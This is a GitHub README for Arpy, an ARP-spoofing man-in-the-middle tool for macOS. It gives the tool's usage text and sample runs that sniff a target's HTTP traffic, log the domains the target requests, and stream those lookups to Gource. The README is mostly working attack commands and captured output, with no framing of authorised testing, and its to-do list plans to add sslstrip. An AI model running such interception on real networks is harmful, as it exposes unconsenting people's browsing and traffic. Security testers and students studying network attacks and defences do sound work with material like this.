 ![alt text][logo]

[logo]: https://github.com/ivanvza/arpy/blob/master/images/logo.png "Logo"
# Arpy
Arpy is an easy-to-use [ARP](https://tools.ietf.org/html/rfc826) spoofing MiTM tool for Mac.
It provides 3 targeted functions:
* Packet Sniffing
* Visited Domains
* Visited Domains with [Gource](https://code.google.com/p/gource/)

###### Each function will be explained below.

### Tested OS (to date)
* Darwin 14.3.0 Darwin Kernel Version 14.3.0 (Mac OS X)

## Requirements
* Python 2.7
* Gource
* Scapy

## Installation
#### Gource
```
brew install gource
```
#### Scapy
```
pip install scapy
```

## Sample Commands
```
ivanvza:~/ > sudo arpy
     _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
    v3.15 -@viljoenivan

Usage: arpy -t <Target IP> -g <Gateway IP> -i <Interface>

ARP MiTM Tool

Options:
  -h, --help            show this help message and exit
  -t TARGET, --target=TARGET
                        The Target IP
  -g GATEWAY, --gateway=GATEWAY
                        The Gateway
  -i INTERFACE, --interface=INTERFACE
                        Interface to use
  --tcp                 Filters out only tcp traffic
  --udp                 Filters out only udp traffic
  -d D_PORT, --destination_port=D_PORT
                        Filter for a destination port
  -s S_PORT, --source_port=S_PORT
                        Filter for a source port
  --sniff               Sniff all passing data
  --sniff-dns           Sniff only searched domains
  --sniff-dns-gource    Output target's DNS searches in gource format
  -v                    Verbose scapy packet print
```

## Packet Sniff
This is the packet sniffer, it allows you to see your target's traffic.
```
ivanvza:~/ > sudo arpy -t 192.168.1.3 -g 192.161.1.1 -i en0 --sniff
     _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
    v3.15 -@viljoenivan


  [Info] Starting Sniffer...

[Info] Enabling IP Forwarding...
[Info] Filter: ((src host 192.168.1.3 or dst host 192.168.1.3))

[Info] Found the following (IP layer): 192.168.1.3 -> 46.101.34.90
GET / HTTP/1.1
User-Agent: curl/7.37.1
Host: ivanvza.ninja
Accept: */*



[Info] Found the following (IP layer): 46.101.34.90 -> 192.168.1.3
HTTP/1.1 200 OK
Vary: Accept-Encoding
Content-Type: text/html
Accept-Ranges: bytes
ETag: "2719538271"
Last-Modified: Thu, 30 Apr 2015 08:25:15 GMT
Content-Length: 3213
Date: Fri, 29 May 2015 20:15:06 GMT
Server: Microsoft IIS

<html>
     <title>><></title>
    <body>
        <pre style="line-height: 1.25; white-space: pre;">
        \          SORRY            /
         \                         /
          \    This page does     /
           ]   not exist yet.    [    ,'|
           ]                     [   /  |
           ]___               ___[ ,'   |
           ]  ]\             /[  [ |:   |
           ]  ] \           / [  [ |:   |
           ]  ]  ]         [  [  [ |:   |
           ]  ]  ]__     __[  [  [ |:   |
           ]  ]  ] ]\ _ /[ [  [  [ |:   |
           ]  ]  ] ] (#) [ [  [  [ :===='
           ]  ]  ]_].nHn.[_[  [  [
           ]  ]  ]  HHHHH. [  [  [
           ]  ] /   `HH("N  \ [  [
           ]__]/     HHH  "  \[__[
           ]         NNN         [
           ]         N/"         [
           ]         N H         [
          /          N            \
         /           q,            \
        /                           \
        </pre>
        <h3 id="list"><h3>
    </body>
<script>

// NOTE: window.RTCPeerConnection is "not a constructor" in FF22/23
var RTCPeerConnection = /*window.RTCPeerConnection ||
```
## DNS Sniff
This function allows you to see domain names that your target is currently requesting.
```
ivanvza:~/ > sudo arpy -t 192.168.1.4 -g 192.168.1.1 -i en0 --sniff-dns
     _____
    |  _  |___ ___ _ _
    |     |  _| . | | |
    |__|__|_| |  _|_  |
    MiTM Tool |_| |___|
         - @viljoenivan


  [Info] Starting DNS Sniffer...

[Info] Enabling IP Forwarding...
[Info] Done...
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: www.youtube.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s2.googleusercontent.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: s.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: fonts.gstatic.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: yt3.ggpht.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: i.ytimg.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
Target: 192.168.1.4 -> (192.168.1.1/DNS server) has searched for: safebrowsing-cache.google.com.
```
## DNS Sniff With Gource
This function is more or less the same as the above, however it provides the functionality to pass it through Gource to get a live feed of what your target is viewing.
```
ivanvza:~/ > sudo arpy -t 192.168.1.3 -g 192.161.1.1 -i en0 --sniff-dns-gource
[INFO] For a live gource feed run this command in parallel with this one:

tail -f /tmp/36847parsed_nmap | tee /dev/stderr | gource -log-format custom -a 1 --file-idle-time 0 -

[Info] Filter: ((src host 192.168.1.3 or dst host 192.168.1.3) and dst port 53)
```
### Sample Gource footage
![alt text][gourve_live_footage]

[gourve_live_footage]: https://github.com/ivanvza/arpy/blob/master/images/arpy_gource.gif "Live Gource Footage"

### Contact
@viljoenivan

### To-do
* Look at adding sslstrip.
* Port it too kali.
